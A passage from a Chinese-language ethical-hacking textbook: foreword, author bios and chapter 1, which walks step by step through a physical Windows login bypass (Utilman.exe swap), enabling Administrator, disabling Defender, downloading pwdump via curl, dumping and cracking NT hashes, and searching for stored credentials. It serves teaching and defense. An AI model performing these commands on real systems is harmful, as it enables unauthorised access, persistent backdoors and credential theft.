# 黑客回归：以其人之道还治其人之身的技术

# 前言

“哦不，又一本黑客书！”每当一本新的网络主题书籍出版时，我经常听到这样的感叹。随着网络安全近期人气飙升，以及媒体对神秘黑客的模糊描述，我们似乎面临着大量关于黑客和入侵系统的多媒体与纸质材料。作为一名从业近二十年、从实践者转为教授、专注于网络安全的人，我觉得当下围绕“黑客一切”的炒作有时反而会妨碍真正的技术。

然而，关注度的提高也意味着网络安全社区获得了成长机会。我们看到了技能、标准和实践知识在有效落地方面的不足，从而可以着手解决。合著者克里斯·哈勒（Chris Haller）、杰西·瓦尔萨隆（Jesse Varsalone）和我有着共同的从业背景——我们曾在真实组织的真实系统上花费无数小时，发现影响真实用户的漏洞。克里斯和我曾作为美国网络队的教练合作，将年轻人才推向创造力和竞技的极限。多年来，杰西一直是我宝贵的导师和朋友——我至今仍会参考他多年前创建的资源，不断磨砺自己的技能。他们多样的经验融入本书，在实用建议与将技能扎根于理论的需求之间取得了平衡。毫无疑问，你会发现这本书就在我的书架上，书角卷起，满是脚注和便利贴，那是我自己阅读和学习的痕迹。

你手中的这本书并非对黑客的浅显概述，而是在该领域数十年工作中磨砺出的大师课。无论你的背景是开发、系统管理还是传统信息安全，书中逐步推进的方法论、工具目录和技术都能为你打下直觉性的基础。无论你是刚入行还是资深专业人士，本书内容都因简洁而全面而独树一帜——是有益于下一代白帽的宝贵资源。

从侦察到后渗透，这些章节捕捉了测试系统时所需的灵活思维方式。作为一个在阿巴拉契亚煤田长大的小男孩，我摆弄着自己的第一台Commodore C64，那种拆开再重新组装起来的倔强决心至今仍驱策着我。杰西、克里斯和我都致力于培养学生对谜题同样的韧劲，让他们在CTF和其他攻防竞赛中鏖战到深夜。比之浮夸的黑客刻板印象，踏实的能力更能推动我们前进。

我非常激动克里斯和杰西创作了这本黑客基础指南，它是用无数小时的历练铸就的。他们的作品体现了那种让人成为大师而非脚本小子的坚韧与毅力。这本书让新兴的和资深的专业人士都能直面复杂的数字威胁。

流行媒体上的炒作或许喧嚣，但要找到系统的软肋，需要耐心、创造力和技巧。我欢迎你挽起袖子，与网络安全社区最优秀、最聪明的人一同学习。携手并肩，我们能把数字荒野变成更值得信赖的生态系统。

乔什·布伦蒂博士  

美国网络队主教练  

马歇尔大学网络安全与网络取证教授

# 关于作者

## 杰西·瓦尔萨隆

杰西·瓦尔萨隆是马里兰大学全球校区网络安全技术副教授兼网络战队的教练。杰西教授网络安全相关课程已有24年，总教学年限达30年。他曾在多所学院和大学的本硕层次授课，包括马里兰大学全球校区、巴尔的摩县社区学院、约翰斯·霍普金斯大学计算机职业研究所、UMBC培训中心、尚普兰学院和史蒂文森大学。他还作为国防部承包商在国防网络调查培训学院（DCITA）任教五年，讲授诸如Windows环境下的取证与入侵、网络利用技术和实时网络调查等课程。

杰西持有IT领域的多项认证，包括A+、CISSP、CEH、Cloud+、CYSA+、Linux+、Net+、Pentest+、Security+和Server+。杰西曾多次在会议上发表演讲，包括许多国防部网络犯罪会议。他曾在大西洋中部高校网络防御竞赛中担任红队成员多年。他拥有南佛罗里达大学（佛罗里达州坦帕）的硕士学位和乔治梅森大学（弗吉尼亚州费尔法克斯）的学士学位。杰西撰写并参与编写了多部出版物，包括《*抵御黑魔法：黑客如何做到以及如何防范*》。

杰西还为NDG的netlab编写了Security+、道德黑客、取证和网络安全的整套实验。杰西与他的儿子梅森和利维以及女儿凯拉住在马里兰州霍华德县的埃利科特城。

## 克里斯托弗·哈勒

克里斯托弗·哈勒在该领域拥有超过十二年的实战经验，是网络安全领域不可忽视的力量。作为Strong Crypto的攻击性安全实践负责人，克里斯在渗透测试、事件响应、风险评估、威胁情报和系统管理方面带来了丰富的知识和行业领先的认证。他的工作成果促成了十几个CVE的发现，展示了他识别常规扫描工具经常忽视的复杂漏洞的才能。

克里斯拥有马里兰大学全球校区的网络安全管理与政策硕士学位，以及SANS技术学院的渗透测试与道德黑客研究生证书。在美国海军网络防御作战司令部任职期间，他领导一个由水手和平民组成的团队，管理全球范围内机密和非机密海军网络上的复杂计算机事件。他在监控国防部网络、响应威胁和实施漏洞缓解策略方面发挥了关键作用，显著缩小了海军网络的攻击面。

在目前的职位上，克里斯利用PTES、OWASP、NIST和MITRE ATT&CK框架，在组织环境内准确、有效地评估网络。他的专业知识涵盖企业网络的内部、外部、Web应用以及ICS/OT测试。通过使用Burp、Nessus、Nuclei和自定义Python工具集等工具，克里斯取得了切实的成果，显著降低了客户的风险。

除了专业头衔之外，克里斯还积极为网络安全社区做贡献。他运行蜜罐来收集网络威胁情报并开发开源项目。作为一位热衷的夺旗赛（CTF）参赛者，克里斯在2022年全国网络联赛中赢得了个人和团队第一名。他还担任美国网络战队的红蓝对抗教练，指导下一代网络安全人才。


# 1 黑客攻击与保护你的操作系统

## 引言

如果我们打算讨论“入侵”操作系统，我们应该从Windows开始。20多年来，我一直在使用类似的方法入侵Windows操作系统。我从1994年开始使用Windows，此后一直没有停止过。我花费了大量个人时间使用所有主要版本的Windows。有一次，为了“好玩”，我决定在我的MacBook Pro（运行Windows，哈哈）上安装所有主流版本的Windows，纯粹是为了“好玩”。作为教师/讲师/培训师/教授23年以上，我成百上千次安装、配置和联网这些操作系统的记忆，既是最好也是最坏的时光。在我的教学旅程中，有过无数次成功和失败的安装（蓝屏）。我在VMware Workstation中安装（以及配置和联网）了这些当前和旧版的操作系统，VMware Workstation现在（截至2024年）已成为免费工具，我认为它对学习网络安全至关重要。Server 2019、Server 2022和Windows 11没有出现在这里，因为在我做这个项目时它们还没有发布。


图1.1 “盒子”里的Windows。

使用某种虚拟化软件，如VMware Workstation或Oracle Virtual Box（免费），是测试、学习和试验各种功能、漏洞和可用软件的绝佳方式。我更喜欢VMware，而且VMware Workstation Player也是一款免费产品，可在Linux和Windows上运行。Windows版本可在以下链接获取：https://tinyurl.com/GetVMNOW。还有VMware Fusion，现在也已免费，可在Mac上运行。较老的基于Intel的Mac几乎可以运行任何版本的Windows。较新的基于Silicon的Mac可以使用VMware Fusion，但只能运行基于高级RISC机器（ARM）的操作系统（截至撰写本文时）。您可以使用名为Universal Turing Machine（UTM）的免费产品通过模拟（比虚拟化慢）运行基于Intel的操作系统。快照功能在VMware Workstation和VMware Fusion中更为强大，可以为您节省数小时的工作。请记住，截至2024年，任何人都可以免费获取VMware Workstation。学习利用和入侵以及保护和加固，都可以通过虚拟机完成，而无需接触真实网络。强烈建议在虚拟机上练习这些技术。

## 闯入——背景

在大多数情况下，登录Windows机器需要用户名和密码。最后一个用户名通常已经显示出来，尤其是在家庭环境中，但在域环境中也可能如此，具体取决于安全设置。无论如何，我们将引导您完成在没有密码的情况下进入系统的过程，然后提供如何防止自己遭受此类攻击的说明。基本上，您会希望使用磁盘加密，这涉及使用BitLocker或第三方工具。我们将在本章后面讨论这个问题。

如果您有一本旧书，名为《*抵御黑魔法：黑客如何做到以及如何防范*》（现在免费），里面有大约六种闯入Windows的方法。然而，现在我们可以直接使用Windows安装USB或DVD介质来绕过密码，而不是使用运行Linux的可启动USB（或DVD）。大多数计算机都有一个功能键，允许您选择从哪个设备启动。例如，在戴尔计算机上，您只需按F12即可调出启动菜单。简单的Google搜索应该能告诉您启动计算机时进入启动菜单所需的按键。我使用的许多计算机在插入介质时会自动从USB或DVD设备启动，但您可能需要按键（如空格键）来完成从安装介质启动的过程。请注意，对于Windows Server版本（如2016、2019和2022），您也可以启动安装介质并选择“修复计算机”而不是“安装”，然后按照以下步骤操作，最终会到达相同的位置。在Windows 10的安装屏幕上，您需要点击“下一步”，然后选择“修复计算机”选项。请注意，如果不放入安装介质，此操作将不起作用，因为您将被迫输入管理员密码才能进入大多数恢复选项。



图1.2 修复计算机。

从这里，您将进入“选择一个选项”屏幕。您需要从选项列表中选择“疑难解答”，这将带您进入高级选项屏幕。然后，选择“命令提示符”。在Windows命令提示符中，我们将更改一个文件以完成我们的入侵。请记住，在本章后面我们还将解释如何防止他人利用此类攻击。再次强调，值得注意的是，在最近的Windows版本中，您需要从安装介质执行这些步骤，因为如果您试图在启动时使用内置的Windows恢复功能来访问命令提示符，这种方法将会失败。通过恢复控制台访问命令提示符仍然需要密码，但我们通过使用安装介质（无论是USB闪存盘还是旧版DVD介质）来绕过它。

**注意：** 在尝试此操作之前，请先完整阅读第一章，因为你可能会想……

当你从安装介质引导启动时，无需任何形式的身份验证即可访问命令提示符。当你看到 `X:\Sources>` 提示符时，你就知道已经到了正确的地方。在该提示符下，你将输入以下命令以保留合法文件的副本，以便日后需要时替换。

```
copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.1
```

然后输入：

```
copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

按 Y 以替换文件。之后，点击右上角的红色 X 关闭命令提示符，然后点击“继续”进入 Windows。在 Windows 登录屏幕上，点击“轻松使用”按钮（`Utilman.exe`）以获取命令提示符。我现在将回顾我是如何走到这一步的。（我是一名教师，所以我喜欢回顾 ☺）。



图 1.3 将`Utilman.exe`重命名为`cmd.exe`。

## 闯入 Windows 操作系统——分步截图详解

*以下是不需要密码闯入 Windows 操作系统的所有步骤：*

1. 在 U 盘或 DVD 等传统介质上获取一份 Windows 安装介质副本。

   注意：如果使用 DVD，请在步骤 2 中选择该选项并立即按下空格键。

2. 进入计算机的启动菜单，确保你可以引导到安装介质（如果需要）。

   请注意，如果启用了安全启动，则需要在 BIOS 中禁用它（图 1.4）。



图 1.4 BIOS 启动菜单选项。

3. 你应该会看到可以选择语言的 Windows 安装屏幕。点击“下一步”。

4. 此时，**请勿点击**“安装”按钮，而应点击“修复计算机”。

   **注意：** 执行安装过程可能会清除你的所有数据（图 1.5）。


**图 1.5** 不要现在安装，而是修复你的计算机。

5. 从选项列表中选择“疑难解答”（图 1.6）。



**图 1.6** 疑难解答。

6. 从高级选项列表中选择“命令提示符”（图 1.7）。



**图 1.7** 命令提示符。

一旦获得命令提示符，你可以：

- 创建一个用户并将该用户添加到管理员组。

- 重置用户的密码。

- 启用管理员帐户并设置该帐户的密码。

- 在特定版本的 Windows 上打开“用户管理器”。

注意：这种“后门”可以被植入目标系统，以提供快速且持续的访问。

在本例中，我使用的是 Windows 10 专业版，可以通过在命令提示符下输入 `lusrmgr.msc` 打开用户管理器来重置密码（如下所示）。从那里，你可以选择要做什么。一个选项是重置系统上默认帐户的密码。如果你使用的是家庭版等不支持本地用户管理器的 Windows 版本，那么你可以直接输入：

```
net user jesse P@ssw0rd
```

用你的用户名替换 Jesse，并用你想用于系统的密码替换 P@ssw0rd。需要注意的是，如果你的名字中包含空格，则需要使用引号：

```
net user "Jesse Varsalone" P@ssw0rd
```

需要注意的是，这不会允许你以该用户身份登录并访问其所有的网站和登录信息，其中可能包括许多人经常使用的各种站点，如 Gmail、Office 365、银行网站、Coinbase 等。重置用户密码将限制黑客进一步利用与用户帐户相关的网络登录信息和密码（或 l00t）的能力。如果你想好好搞黑客并获得“金块”（顺便说一句，那是参加 Defcon 时绝佳的住宿地点），你就得多下点功夫。我们将在本章的下一节中探讨用于后渗透能力的更隐蔽的方法。

如果你是重置自己的密码，那么只需进入“用户”文件夹，然后右键点击你的名字，选择“设置密码”（如下所示）。如果你只是完成任务，你可以在这里更改密码，这样即使忘记了密码，也能登录系统。如果你是攻击者，并且重置了该帐户的密码，那么使用该计算机的人如果无法用他们一直在使用的密码登录，几乎肯定会发现他们的系统发生了变化。



图 1.10 Windows 专业版中的本地用户管理器。

这种攻击应该对从 Windows 2000 以来的所有 Windows 版本都有效，因为 Windows NT 没有任何辅助功能选项。对于较旧的操作系统，你可以使用 Kali 或 BackTrack 执行类似步骤。这一点在《防御黑魔法》一书中有描述，该书现在是一本可免费获取的电子书。令人难以置信的是，对于 Windows 95、98 和 ME（以及 Windows 3.11），你可以在登录时点击“取消”进入系统。

## 后渗透

重置 Windows 系统的主用户帐户后，我得以登录该帐户。之后，我就拥有了对该计算机不受限制的管理员访问权限。当用户忘记了密码并授权你帮助其进入系统时，这是一种重置机器密码的好方法。对于试图闯入没有密码的系统的攻击者来说，这也是一个可行的选择。根据进入机器的目的不同，这里有好消息也有坏消息。如果黑客更改了密码，根据我的测试，一旦更改密码，他们将无法访问存储在 Chrome 或 Microsoft Edge 中的网站和登录信息。不过，你仍然可以访问他们的所有文档、图片和其他关键文件。然而，“王国之钥”实际上可能在于获取这些网站的登录信息，尤其是当它们与银行/加密货币帐户、个人电子邮件或工作电子邮件帐户绑定时。我们将在接下来探讨这一点。



图 1.11 在计算机系统中常见的典型 PDF 文件。

大多数人将大量关键和个人信息存储在文档、PDF、Excel 电子表格、文本文件（包含密码）和其他文件中。在我获准访问的系统上，我甚至见过像纳税申报单以及带有有效期和 CVV 码的信用卡号码被存储在系统文本文件中的情况（很可能是为了方便用户在线订购时复制粘贴）。我也会在 Chrome 以及一些经常购物的网站上保存部分信用卡信息。那些对于将银行或信用卡信息存储在购物网站上更为谨慎的人，可能会倾向于将其存放在电脑本地文件中，以便在需要时复制粘贴。他们可能不太愿意将这类信息远程存储，因为他们希望避免在这些公司或其账户遭到入侵时，信用卡被用于未经授权的购买。然而，将凭据或信用卡信息存储在本地机器上并不是更安全的策略，因为如果有人物理访问该机器，或者攻击者利用漏洞远程入侵工作站并下载文件，此类文件就会面临风险。就像在夺旗（Capture the Flag）活动中一样，你在噪声中搜索筛选的能力对于找到系统中的“l00t”至关重要。Windows 的搜索功能以及对最近打开文档的快速访问会有所帮助，但请记住，一台普通的 Windows 系统文件数量可能远超过 50 万，甚至超过 100 万。使用像 PASS 这样的常见短语可能会让你有所发现。如果你了解一些取证知识，会很有帮助，因为你可以按修改日期对项目进行排序。



**图 1.12** 带有一些重置问题的密码文件。

## 反间谍/高级黑客攻击

接下来，我们将探讨比引言部分所讲内容更加阴险的方法。我并不是想重复你花钱购买的这本书的第一章中的信息，但我们需要采取额外措施来彻底利用用户。当然，在本章后面，我们还会介绍你可以采取的预防措施，以避免你的设备成为这类物理攻击的受害者。基本上，如果你使用的是 Windows 11 和 Microsoft 帐户，那么由于 BitLocker 应已启用，你将免受这类物理攻击的侵害。我们将在本章后面讨论防御措施。


物理攻击的起始步骤基本相同，但你需要采取一些重要的额外步骤来破解默认用户的密码。而且，如果你想掩盖痕迹以免被发现，还需要做更多的工作（唉）。不过，战利品可能会既丰厚又改变人生。由于这台机器很可能是受信任的设备，访问关键网站或他们的电子邮件帐户时，设备很可能不需要双因素认证。我本人很清楚，我所有受信任的设备都是如此。不过，在无法不受限制地访问某人的计算机、也无法拿到可能用于双因素认证（`2FA`）的手机的情况下，能做的事情有一些限制。我们也会在这次攻击中探讨这些限制。

完成“入侵 Windows 操作系统”的步骤 `1–10`，并通过调用轻松访问按钮打开命令提示符后，你可以走这条不同的路径，利用通常被禁用的 `Administrator` 帐户来入侵系统并恢复有价值的 Web 登录信息。然后输入以下命令以启用 `Administrator` 帐户、为该帐户设置密码并重新启动计算机。需要重新启动，以便 `Administrator` 帐户出现在 Windows 工作站的用户列表中。**注意：** 在不显示用户名的服务器上，`Administrator` 帐户将处于活动状态。通常，由于服务器由多个用户使用，个人不会将其个人帐户信息存储在浏览器中。使用下面的第二条命令，你仍然可以进入服务器操作系统（无需重新启动）。只需在用户名处输入 `Administrator`，在密码处输入 `P@ssw0rd` 即可。

- `C:\Windows\System32>net user Administrator /active:yes`

- `C:\Windows\System32>net user Administrator P@ssw0rd`

- `C:\Windows\System32>shutdown /r /t 30`

以 `Administrator` 身份登录，密码为 `P@ssw0rd` 或你设置的密码。由于这是该帐户首次登录系统，你可能会看到一系列设置提示。



**图 1.13** 启用 `Administrator` 帐户。

### 禁用防病毒软件

接下来我们要做的是禁用内置的 Windows Defender 防病毒软件。我们需要这样做，以便转储密码哈希。要在 Windows 中禁用防病毒软件，请执行以下步骤：

- 在开始搜索框中输入 Windows 安全中心，然后点击打开应用（图 `1.14`）。

- 接下来，我们将调整病毒和威胁防护设置。点击“病毒和威胁防护设置”，然后在“病毒和威胁防护设置”下点击“管理设置”（图 `1.15`）。

- 实时保护、云端保护和自动提交示例很可能都已开启。我们需要将这三项全部关闭，如图 `1.16` 所示。


**图 1.14** 安全中心应用。



**图 1.15** 病毒和威胁防护设置。

**实时保护**

查找并阻止恶意软件在设备上安装或运行。你可以暂时关闭此设置，稍后它会自动重新开启。

实时保护已关闭，你的设备容易受到攻击。关闭

**云端保护**

通过访问云中最新的保护数据，提供更强、更快的保护。与“自动提交示例”一起使用时效果最佳。

云端保护已关闭。你的设备可能容易受到攻击。忽略 关闭

**自动提交示例**

向 Microsoft 发送示例文件，以帮助保护你和其他人免受潜在威胁。如果所需文件可能包含个人信息，我们会提示你。

自动提交示例已关闭。你的设备可能容易受到攻击。忽略 关闭

**图 1.16** 实时保护、云端保护和自动提交示例。

好的，现在我们继续下载最新版本的 `pwdump`。你可以从以下链接获取最新版本（在撰写本文时是 `8`）：`https://www.openwall.com/passwords/windows-pwdump`。我真的不想去应付 `Chrome` 或 `Edge` 那些烦人的安全设置，它们总是提示有病毒，所以我会直接访问该网站，找到最新版本的软件，然后右键点击并选择“复制链接地址”。



**图 1.17** `OpenWall` 上的 `Pwdump` 下载页面。

接下来，我们需要打开命令提示符。为此，右键点击“开始”，选择“运行”，然后输入 `cmd`。接着，我们可以使用 `curl` 将恶意文件下载到本地系统。我们需要使用重定向（大于号）将 `curl` 下载的文件输出到一个 `zip` 文件中。

```
C:\Users\Administrator>curl https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump8-8.2.zip > pwdump.zip
```

请注意，我在使用 `curl` 命令下载文件时位于 `C:\Users\Administrator` 文件夹中，所以文件会出现在那里。在 `C:\Users\Administrator` 文件夹中找到该文件，然后你需要通过右键点击并选择“全部提取”，再点击“提取”来解压文件。



**图 1.18** 解压 `Pwdump`。

接下来，我们将进入 `pwdump` 解压到的子文件夹，以便转储密码哈希。就我而言，我会切换到 `pwdump` 目录，然后再切换到 `pwdump8` 目录。因为我使用的是版本 `8`，所以我只需输入 `pwdump8` 即可转储哈希。请记住，我们的目标是获取默认用户帐户的密码哈希，这样他们在 `Microsoft Edge` 和 `Google Chrome` 中的浏览器登录信息和密码就会保留（我没有测试 `Firefox`，抱歉）。

- `C:\Users\Administrator>cd pwdump`

- `C:\Users\Administrator\pwdump>cd pwdump8`

- `C:\Users\Administrator\pwdump\pwdump8>pwdump8`

请注意，根据你使用的 `pwdump` 版本，可能需要将 `8` 替换为相应数字。



**图 1.19** `pwdump` 提供所需的密码哈希。

你应该将该 `NT` 哈希复制到 `USB` 驱动器上的一个文本文件中（你用来启动的 `USB` 驱动器就很合适）。我们可能需要使用一些工具来破解它，然后稍后再回来。这取决于用户使用的密码有多安全，或者该哈希以前是否被破解过。接下来，如果你想快速推进，我们可以尝试在 `Google` 上搜索该哈希。就我而言，我找到了匹配结果，并且立刻知道了用户的真实密码，因为它出现在搜索结果中。那个用户——也就是我——真该感到羞愧，竟然没有使用更安全的密码。

**注意：** 开头的所有哈希都相同，这是因为自 `Windows Vista` 以来，操作系统（默认）不再使用 `LAN Manager` 哈希。`Windows XP` 和 `2003 Server` 是最后默认使用该哈希的系统，不过更早版本的 `Windows` 可以配置为使用 `NT` 哈希。



**图 1.20** 搜索结果中的密码哈希。

另一种选择是使用能够破解密码哈希的网站。其中比较受欢迎的网站之一是 `crackstation.net`。该网站有烦人的验证码，但它在破解更安全的 `Windows NTLM` 密码哈希以及安全性较低的旧版 `LAN Manager` 密码哈希方面表现良好。



**图 1.21** 在线密码破解。

你也可以使用 `John the Ripper` 来破解密码哈希。`John the Ripper` 已经存在很久了，你可以使用它通过暴力破解或许多可用的字典文件（如 `rockyou.txt`）来破解多种类型的密码哈希。另一个较新的密码破解工具是 `hashcat`，它针对使用图形处理器（`GPU`）来辅助揭示密码哈希进行了优化。

